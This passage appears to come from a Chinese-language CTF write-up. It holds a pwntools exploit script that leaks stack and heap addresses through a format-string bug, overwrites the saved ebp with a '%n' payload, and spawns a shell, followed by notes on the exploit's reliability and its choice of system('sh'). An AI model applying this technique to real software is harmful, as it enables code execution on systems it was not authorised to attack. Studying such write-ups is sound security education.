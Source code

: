 ```python
creat('2222', 'skye', 0x20, payload)
show()
p.recvuntil('Description: ')
data = p.recvuntil('cccc', drop=True)
data = data.split('0x')
ebp_addr = int(data[-2], 16)
log.info("ebp_addr:"+hex(ebp_addr))
heap_addr = int(data[-1], 16)
log.info("heap_addr:"+hex(heap_addr))


# overwrite main_ebp
payload = '%{}c%6$n'.format(str(heap_addr-4))
creat('3333', 'skye', 68, payload)
#gdb.attach(p,'b *0x0804876A')
#raw_input('pause')
show()


#getshell
p.recvuntil('>>> ')
p.sendline('5')

p.interactive()
```

需要注意的是，这样并不能稳定得到 shell，因为我们一次性输入了太长的字符串。但是我们又没有办法在前面控制所想要输入的地址。只能这样了。

为什么需要打印这么多呢？因为格式化字符串不在栈上，所以就算我们得到了需要更改的 ebp 的地址，也没有办法去把这个地址写到栈上，利用 $ 符号去定位他；因为没有办法定位，所以没有办法用 hn\hhn 等方式去写这个地址，只能用 n 方式去写，所以打印很多。

**注解**：

我的脚本中用的不是 ``system('/bin/sh')`` ，而是 ``system('sh')`` ，这是因为用题目提供的 libc 搜索 /bin/sh 得到结果有误，得到的地址不是 /bin/sh ：

![fmrstr_5.png](img/fmrstr_5.png)

而去到 libcdatabase 得到结果是：``0xf7f60a0b``，里面有一个 0x0a 就是换行符嘛，这样会提前终止输入，所以也不行。最后使用题目提供 libc 搜索 sh ，成功 getshell 。

在我的环境（Ubuntu 16.04）没有遇到 system \x00 阻断，所以 payload 中 system 前置。如果遇到阻断，就将 system 后置，并调整 ebp 覆盖内容加上偏移即可。
